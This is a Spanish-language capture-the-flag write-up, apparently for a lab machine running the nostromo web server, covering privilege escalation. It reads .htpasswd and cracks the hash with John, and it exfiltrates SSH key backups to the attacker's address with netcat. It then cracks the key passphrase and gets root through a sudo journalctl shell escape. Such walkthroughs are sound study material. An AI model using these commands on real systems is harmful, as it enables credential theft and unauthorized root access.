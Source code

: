 ## Privilege Escalation {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
cd /home
#Output
david

ls /home/david
#Output
Permisson denied

ls -l /home
#Output
drwx--x--x
```

Enumeramos el systema

```bash
cd /
id
sudo -l
find \-perm -4000 2>/dev/null
cd /var
ls
cd nostromo
cd conf
cat nhttpd.conf
cat /var/nostromo/conf/.htpasswd
```

Encontramos el hash del usuario david vamos a copiarlo en la maquina de attackante, y intentamos bruteforcear con **John**

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Encontramos una contraseña intentamos ponerla aciendo un `su david` y `su root`, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio **public_www**.


### Investigacion del public_www {-}

Intentamos ver si esta en el directorio `/home/david/public_www` y effectivamente. hay un fichero comprimido y nos vamos a transferir 
a nuestro equipo de attaquante.

1. En el equipo de attaquante

    ```bash
    nc -nlvp 443 > comprimido.tgz
    ```

1. En el equipo victima

    ```bash
    nc 10.10.14.20 443 < backup-ssh-identity-files.tgz
    ```

Descomprimimos el archivo con el commando

```bash
7z l comprimido.tgz
7z x comprimido.tgz
7z l comprimido.tar
7z x comprimido.tar 
```

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

### ssh2john {-}

```bash
ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

La contraseña de la id_rsa a sido crackeada y ya nos podemos connectar con ssh

```bash
ssh -i id_rsa david@10.10.10.165 
```

### Escalada de privilegio para root {-}

```bash
ls -l
#Output
bin

cd bin/
cat server-stats.sh
```

Vemos en este fichero que sudo puede executar **journalctl**

Vamos a la pagina de [gtfobins](gtfobins.github.io) y buscamos por jounalctl

El **gtfobins** dice que hay que lanzar jounalctl con sudo y en otra linea poner `!/bin/sh`

> [!] NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh

Ya estamos root y seguimos mas hack que nunca.
